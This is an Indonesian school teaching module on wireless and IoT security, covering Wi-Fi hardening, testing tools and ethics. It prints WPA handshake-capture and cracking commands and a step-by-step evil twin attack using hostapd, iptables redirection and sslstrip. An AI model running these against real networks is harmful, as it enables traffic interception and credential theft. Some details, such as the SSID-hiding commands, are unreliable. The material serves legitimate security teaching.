



# 📡 Keamanan Jaringan Nirkabel dan IoT

## 🎯 Tujuan Pembelajaran
Setelah mempelajari materi ini, peserta didik mampu:
1. Memahami arsitektur dan protokol jaringan nirkabel
2. Mengidentifikasi ancaman keamanan pada jaringan nirkabel dan perangkat IoT
3. Menerapkan pengamanan pada jaringan Wi-Fi
4. Mengamankan perangkat Internet of Things (IoT)
5. Melakukan pengujian keamanan jaringan nirkabel

## 1. Dasar Jaringan Nirkabel

### 1.1 Standar dan Protokol Nirkabel


### 1.2 Komponen Jaringan Nirkabel
| Komponen | Deskripsi | Contoh |
|----------|-----------|--------|
| **Access Point (AP)** | Perangkat yang memancarkan sinyal Wi-Fi | Router Wi-Fi |
| **Wireless Client** | Perangkat yang terhubung ke jaringan nirkabel | Laptop, Smartphone |
| **SSID** | Nama pengenal jaringan | "Home-WiFi", "Office-Net" |
| **BSSID** | Alamat MAC Access Point | 00:1A:2B:3C:4D:5E |
| **Channel** | Frekuensi komunikasi nirkabel | Channel 1 (2.412 GHz) |

## 2. Ancaman Keamanan Jaringan Nirkabel

### 2.1 Jenis Serangan
1. **Eavesdropping**
   - Mendengarkan lalu lintas jaringan tanpa izin
   - Contoh: Menggunakan Wireshark untuk menangkap paket

2. **Man-in-the-Middle (MITM)**
   - Menyisipkan diri di antara dua pihak yang berkomunikasi
   - Contoh: Serangan ARP Spoofing

3. **Rogue Access Point**
   - Titik akses tidak sah yang dipasang di jaringan
   - Contoh: Evil Twin Attack

4. **Denial of Service (DoS)**
   - Membuat jaringan tidak dapat diakses
   - Contoh: Deauthentication Attack

5. **Krack Attack**
   - Mengeksploitasi kerentanan pada protokol WPA2
   - Memaksa penggunaan ulang kunci enkripsi

### 2.2 Kelemahan Keamanan pada Perangkat IoT
1. **Kredensial Default**
   - Banyak perangkat IoT menggunakan kredensial default
   - Contoh: admin/admin, admin/password

2. **Kurangnya Pembaruan Keamanan**
   - Firmware yang tidak pernah diupdate
   - Tidak ada mekanisme update otomatis

3. **Komunikasi Tidak Terenkripsi**
   - Menggunakan protokol tidak aman (HTTP, Telnet, FTP)
   - Tidak ada enkripsi end-to-end

4. **Vulnerabilitas Perangkat Keras**
   - Port debugging yang tidak dinonaktifkan
   - Akses fisik yang tidak aman

## 3. Pengamanan Jaringan Nirkabel

### 3.1 Enkripsi dan Autentikasi


### 3.2 Praktik Terbaik Keamanan Wi-Fi
1. **Gunakan WPA3**
   - Enkripsi terbaru dan teraman
   - Perlindungan terhadap serangan offline

2. **Nonaktifkan WPS**
   - WPS rentan terhadap serangan brute force
   ```bash
   # Di router OpenWRT
   uci set wireless.@wifi-iface[0].wps_pushbutton='0'
   uci commit wireless
   /etc/init.d/network restart
   ```

3. **Sembunyikan SSID**
   - Tidak menyiarkan nama jaringan
   ```bash
   # Di router Linux
   iwconfig wlan0 essid "NamaJaringan" mode managed
   iwconfig wlan0 ap any
   iwconfig wlan0 key s:password
   iwconfig wlan0 key restricted
   ```

4. **Aktifkan MAC Filtering**
   - Hanya izinkan perangkat yang dikenal
   ```bash
   # Contoh di router MikroTik
   /interface wireless access-list
   add interface=wlan1 mac-address=00:11:22:33:44:55
   ```

## 4. Keamanan Internet of Things (IoT)

### 4.1 Arsitektur Keamanan IoT


### 4.2 Praktik Keamanan IoT
1. **Gunakan Kata Sandi Kuat**
   ```bash
   # Contoh generate password kuat
   openssl rand -base64 16
   # Output: 7Fh3pP9xYz2aB4vK
   ```

2. **Segmentasi Jaringan**
   ```bash
   # Contoh VLAN untuk IoT di MikroTik
   /interface bridge
   add name=IoT
   
   /interface vlan
   add interface=bridge-local name=IoT_VLAN vlan-id=20
   
   /ip address
   add address=192.168.20.1/24 interface=IoT_VLAN
   ```

3. **Update Firmware Secara Berkala**
   ```bash
   # Contoh update firmware di OpenWRT
   opkg update
   opkg list-upgradable
   opkg upgrade <package>
   ```

## 5. Pengujian Keamanan Jaringan Nirkabel

### 5.1 Tools Pengujian
1. **Aircrack-ng**
   ```bash
   # Monitor mode
   airmon-ng start wlan0
   
   # Capture handshake
   airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
   
   # Crack WPA/WPA2
   aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 capture-01.cap
   ```

2. **Wireshark**
   ```bash
   # Filter paket Wi-Fi
   wlan.fc.type_subtype == 0x08    # Beacon frames
   wlan.fc.type_subtype == 0x05    # Probe requests
   eapol                         # EAPOL (WPA handshake)
   ```

3. **Kismet**
   ```bash
   # Jalankan Kismet
   kismet -c wlan0mon
   
   # Analisis di antarmuka web
   http://localhost:2501
   ```

## 6. Studi Kasus: Serangan pada Jaringan Nirkabel

### 6.1 Evil Twin Attack
1. **Persiapan**
   ```bash
   # Buat interface monitor
   airmon-ng check kill
   airmon-ng start wlan0
   
   # Temukan target
   airodump-ng wlan0mon
   ```

2. **Buat Access Point Palsu**
   ```bash
   # Install hostapd
   apt install hostapd dnsmasq
   
   # Konfigurasi hostapd
   echo 'interface=wlan0
   driver=nl80211
   ssid=Free_WiFi
   hw_mode=g
   channel=6' > /etc/hostapd/hostapd.conf
   
   # Jalankan access point
   hostapd /etc/hostapd/hostapd.conf
   ```

3. **Arahkan Lalu Lintas**
   ```bash
   # Aktifkan IP forwarding
   echo 1 > /proc/sys/net/ipv4/ip_forward
   
   # Atur iptables
   iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
   iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
   
   # Jalankan SSLStrip
   sslstrip -l 8080
   ```

## 7. Perlindungan Hukum dan Etika

### 7.1 Regulasi yang Berlaku
1. **UU ITE** (Undang-Undang Informasi dan Transaksi Elektronik)
   - Pasal 30: Akses tidak sah
   - Pasal 32: Perbuatan yang merugikan orang lain

2. **Peraturan Menteri Kominfo**
   - PM Kominfo No. 12/2016 tentang Penyelenggaraan Komunikasi dan Informasi
   - PM Kominfo No. 4/2016 tentang Perlindungan Data Pribadi

### 7.2 Kode Etik
1. Dapatkan izin sebelum melakukan pengujian
2. Laporkan kerentanan yang ditemukan
3. Jangan menyalahgunakan pengetahuan untuk kejahatan
4. Patuhi peraturan yang berlaku

## 📌 Ringkasan
1. Jaringan nirkabel rentan terhadap berbagai serangan keamanan
2. Penggunaan enkripsi yang kuat sangat penting
3. Perangkat IoT memerlukan perhatian khusus terkait keamanan
4. Pengujian keamanan harus dilakukan secara bertanggung jawab

## 📚 Referensi
1. OWASP IoT Project: https://owasp.org/www-project-internet-of-things/
2. Wi-Fi Alliance: https://www.wi-fi.org/
3. NIST Guidelines for Securing Wireless Networks: https://csrc.nist.gov/
4. ENISA Baseline Security Recommendations for IoT: https://www.enisa.europa.eu/

---
<div align="center">
  <p>Modul Pembelajaran - Keamanan Jaringan Nirkabel dan IoT</p>
  <p>© 2025 SMKN 1 Punggelan - Program Keahlian Teknik Komputer dan Jaringan</p>
</div>
